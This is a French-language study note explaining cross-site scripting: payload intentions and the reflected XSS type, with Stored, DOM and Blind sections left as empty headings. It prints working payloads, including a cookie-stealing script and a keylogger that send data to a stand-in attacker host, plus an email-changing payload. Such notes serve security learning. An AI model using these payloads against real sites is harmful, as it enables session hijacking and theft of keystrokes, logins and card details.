

# Failles XSS

[Retour](../README.md)

## Définition

Le Cross-Site Scripting, mieux connu sous le nom de XSS dans la communauté de la cybersécurité,
est classé comme une attaque par injection où du JavaScript malveillant est injecté dans une application web
dans l'intention d'être exécuté par d'autres utilisateurs.

## La notion de charge utile ou Payload

En XSS , la payload est le code JavaScript que nous souhaitons exécuter sur l'ordinateur cible.
La charge utile comporte deux parties : l’intention et la modification.

L'intention est ce que vous souhaitez que JavaScript fasse réellement, et la modification concerne
les changements apportés au code dont nous avons besoin pour le faire exécuter car chaque scénario est différent.

Voici quelques exemples d’ intentions XSS .

### Proof of Concept :

Il s'agit de la payload la plus simple où tout ce que vous voulez faire est de démontrer que vous pouvez
réaliser XSS sur un site Web. Cela se fait souvent en faisant apparaître une boîte d'alerte sur la page
avec une chaîne de texte, par exemple :

```javascript
<script>alert('XSS');</script>
```

### Session Stealing :

Les détails de la session d'un utilisateur, tels que les jetons de connexion, sont souvent conservés dans
des cookies sur la machine cible. Le JavaScript ci-dessous prend le cookie de la cible, encode le cookie en base64
pour garantir une transmission réussie, puis le publie sur un site Web sous le contrôle du pirate informatique
pour y être enregistré. Une fois que le pirate informatique dispose de ces cookies, il peut reprendre la session
de la cible et être connecté en tant qu'utilisateur.

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Keylogger :

Le code ci-dessous agit comme un enregistreur de frappe. Cela signifie que tout ce que vous tapez sur la page Web
sera transféré vers un site Web sous le contrôle du pirate informatique. Cela pourrait être très préjudiciable si
le site Web sur lequel la charge utile était installée sur les connexions utilisateur acceptées ou les détails de la carte de crédit.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) )}</script>
```

### Business Logic :

Cette charge utile est beaucoup plus spécifique que les exemples ci-dessus. Il s’agirait d’appeler une ressource
réseau particulière ou une fonction JavaScript.

Par exemple, imaginez une fonction JavaScript permettant de modifier l'adresse e-mail de l'utilisateur appelée user.changeEmail().
Votre charge utile pourrait ressembler à ceci :

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Maintenant que l'adresse e-mail du compte a changé, l'attaquant peut effectuer une attaque de réinitialisation du mot de passe.


## Les types de XSS

### Reflected XSS

Le XSS réfléchi se produit lorsque les données fournies par l'utilisateur dans une requête HTTP 
sont incluses dans la source de la page Web sans aucune validation.

**Exemple de scénario :**

un site Web sur lequel si vous saisissez une saisie incorrecte, un message d'erreur s'affiche. 
Le contenu du message d'erreur est extrait du paramètre d'erreur dans la chaîne de requête et est intégré directement dans la source de la page.


L'application ne vérifie pas le contenu du paramètre error, ce qui permet à l'attaquant d'insérer du code malveillant.


La vulnérabilité peut être utilisée selon le scénario de l'image ci-dessous :



**Impact potentiel :**

l'attaquant pourrait envoyer des liens ou les intégrer dans une iframe sur un autre site Web contenant une payload
JavaScript aux victimes potentielles, les incitant à exécuter du code sur leur navigateur, révélant potentiellement des informations sur la session ou le client.

**Comment tester Reflected XSS :**

Vous devrez tester tous les points d'entrée possibles ; ceux-ci inclus:

- Paramètres dans la chaîne de requête URL
- Chemin du fichier URL
- Parfois des en-têtes HTTP (bien que peu exploitables en pratique)


### Stored XSS

### DOM Based XSS

### Blind XSS
